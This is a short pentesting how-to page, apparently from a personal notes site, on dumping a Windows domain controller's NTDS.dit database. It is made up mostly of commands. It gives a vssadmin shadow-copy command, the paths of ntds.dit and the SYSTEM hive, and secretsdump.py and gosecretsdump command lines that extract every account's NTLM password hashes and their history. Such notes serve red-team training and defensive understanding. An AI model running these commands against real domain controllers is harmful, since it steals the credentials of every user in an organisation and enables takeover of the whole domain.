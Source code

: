 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{{%attachments title="Related files" fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Copy NTDS.dit

Path: `C:\Windows\NTDS\ntds.dit`

![example](images/example1.png)

### Copy SYSTEM

Path: `C:\Windows\System32\config\SYSTEM`

![example](images/example2.png)

### Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

#### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

#### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
